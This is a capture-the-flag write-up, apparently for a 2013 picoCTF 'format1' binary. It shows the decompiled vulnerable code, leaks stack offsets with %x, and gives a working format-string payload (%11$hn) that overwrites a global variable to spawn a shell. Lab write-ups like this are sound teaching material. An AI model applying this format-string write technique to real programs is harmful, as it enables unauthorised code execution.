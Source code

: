 ### S0lv3d by H4yicl3

First we download the source

try input it with format parameter
```
hayicle@ubuntu:~/ctf/2013pico$ ./format1
%x_%x_%x
ff8f151c_50_0
3!
```
so we know. the program has format bug.

open in IDA and try to understand the source code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@3
  int v4; // edx@3
  int v5; // [sp+2Ch] [bp-5Ch]@1
  int v6; // [sp+7Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  be_nice_to_people();
  memset(&v5, 0, 0x50u);
  read(0, &v5, 0x50u);
  printf((const char *)&v5);	//<------ bug here !! mind it
  printf("%d!\n", x);						//we need to know the address of x
  if ( x == 4 )								//try modify it equal 4
  {
    puts("running sh...");					//we have shell
    system("/bin/sh");
  }
  result = 0;
  v4 = *MK_FP(__GS__, 20) ^ v6;
  return result;
}
```
use IDA to find the address of x
```
.data:0804A02C x               dd 3                    ; DATA XREF: main+65r
```
now we have address of x !! that is 0x0804a02c
so we try to leak address it with the python script

```
hayicle@ubuntu:~/ctf/2013pico$ (python -c 'print "AAAA"+"%x_"*50')|./format1
																		
AAAAffa8021c_50_0_ffa802b4_ffa80228_ffa80220_ffa80314_f77b8938_0_50_41414141(string AAAA)_255f7825_78255f78
_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_3!
```
So you see the hex of string AAAA we input is at offset 11
so we can insert the address of x to offset 10 then we can modify it !!
the python script look like
```
(python -c 'print "\x2c\xa0\x04\x08"+"%x_"*50')|./format1
,ffc22aac_50_0_ffc22b44_ffc22ab8_ffc22ab0_ffc22ba4_f7703938_0_50_804a02c(address of x)_255f7825_78255f78_5f78255f_255f7825_
78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_3!
```
ok ! try to modify it with %(offset)$n
the offset is 11(you can count from left to right)
```
hayicle@ubuntu:~/ctf/2013pico$ (python -c 'print "\x2c\xa0\x04\x08"+"%11$hn"';cat)|./format1
,?
4!<---- we change it become 4 already!!
running sh...
whoami
hayicle
```
well done!!
